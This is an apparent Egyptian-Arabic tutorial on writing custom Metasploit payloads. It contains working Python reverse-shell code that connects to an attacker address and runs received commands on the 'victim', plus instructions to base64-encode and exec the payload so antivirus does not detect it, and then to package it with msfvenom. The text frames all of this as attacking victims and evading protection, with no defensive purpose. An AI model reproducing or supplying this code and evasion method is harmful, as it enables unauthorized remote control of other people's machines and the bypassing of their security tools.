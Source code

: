 ## **🔥 تطوير Payloads مخصصة في Metasploit 🔥**

### **🔹 يعني إيه نطور Payload مخصص؟**

الـ `Payload` هو **الكود اللي بيتنفذ على الجهاز المستهدف** بعد نجاح الـ Exploit. في Metasploit، فيه `Payloads` جاهزة زي **Meterpreter، Shells، DLL Injection**، لكن أحيانًا الأدوات الجاهزة مش بتكون كافية، وساعتها بنحتاج نطور `Payload` خاص بينا.

✅ **ليه ممكن تحتاج تكتب Payload بنفسك؟**

- لو الـ `Payloads` الجاهزة **مكشوفة ومكتشفة من برامج الحماية**.
- لو محتاج **وظائف إضافية** غير اللي متاحة في الـ `Payloads` الجاهزة.
- لو الهدف عنده **إعدادات خاصة بتمنع تشغيل الـ Payloads العادية**.

🎯 **💬 الخلاصة بالمصري:**  
"لو الـ Payloads الجاهزة بتتكشف أو مش بتشتغل، لازم نكتب واحد مخصص بنفسنا!" 🚀😏

---

## **🟢 1. أنواع الـ Payloads في Metasploit**

📌 **فيه نوعين أساسيين من الـ Payloads:**

1. **Staged Payloads**:
    
    - بتنزل على الضحية على **أجزاء** وبتاخد مساحة صغيرة.
    - بتحتاج **اتصال مستمر** مع المهاجم.
    - مثال: `windows/meterpreter/reverse_tcp`
2. **Non-Staged Payloads**:
    
    - بتنزل بالكامل **دفعة واحدة**.
    - مش بتحتاج اتصال مستمر مع المهاجم.
    - مثال: `windows/shell_reverse_tcp`

🎯 **💬 الخلاصة بالمصري:**  
"فيه نوع بينزل على الضحية على أجزاء (Staged)، ونوع بينزل مرة واحدة (Non-Staged)، كل واحد ليه استخداماته!" 📝💣

---

## **🟢 2. كتابة Payload مخصص باستخدام Python**

📌 **هنكتب Payload بسيط يفتح Reverse Shell في Python**

1️⃣ **اكتب الكود التالي في ملف `payload.py`**

```python
import socket
import subprocess

# إعداد الاتصال بالسيرفر
IP = "192.168.1.100"  # ضع عنوان الـ Attacker
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((IP, PORT))

# تنفيذ الأوامر على الجهاز الضحية
while True:
    command = s.recv(1024).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())

s.close()
```

🎯 **💬 الخلاصة بالمصري:**  
"الـ Payload ده لما يشتغل على الضحية، هيفتح اتصال مع المهاجم، والمهاجم يقدر يبعت أوامر للضحية!" 🏴‍☠️🔥

---

## **🟢 3. تشفير الـ Payload لتخطي برامج الحماية**

📌 **عشان الـ Antivirus ما يكتشفش الـ Payload، هنشفره بـ Base64**

1️⃣ **تشفير الكود وتحويله لباينري**

```python
import base64

payload_code = '''
import socket
import subprocess
IP = "192.168.1.100"
PORT = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((IP, PORT))
while True:
    command = s.recv(1024).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())
s.close()
'''

encoded_payload = base64.b64encode(payload_code.encode()).decode()
print(f'Encoded Payload: {encoded_payload}')
```

2️⃣ **تشغيل الـ Payload بعد فك التشفير**

```python
import base64
exec(base64.b64decode("PASTE_YOUR_ENCODED_PAYLOAD_HERE").decode())
```

🎯 **💬 الخلاصة بالمصري:**  
"بنشفر الكود بتاعنا عشان الـ Antivirus ما يكتشفوش، وبعدين نفك التشفير وقت التنفيذ!" 🔐😎

---

## **🛠️ خطوات عملية لتطوير Payload مخصص في Metasploit**

✅ **1. حدد نوع الـ Payload** اللي محتاجه (Reverse Shell، Meterpreter، DLL Injection…).  
✅ **2. استخدم لغة Python أو C** لكتابة الـ Payload.  
✅ **3. شفر الكود بتاعك** باستخدام Base64 أو Crypters عشان تتجنب كشفه.  
✅ **4. جرب تشغيل الـ Payload** على الضحية وتأكد إنه شغال تمام.  
✅ **5. استخدم MSFVenom** لتغليف الـ Payload في ملف تنفيذي.

🎯 **💬 الخلاصة النهائية بالمصري:**  
"لو الـ Payloads الجاهزة مش نافعة، بنكتب واحد بنفسنا، ونشفّره عشان ما يتكشفش، وبعد كده بنشغله على الضحية!" 🤖💥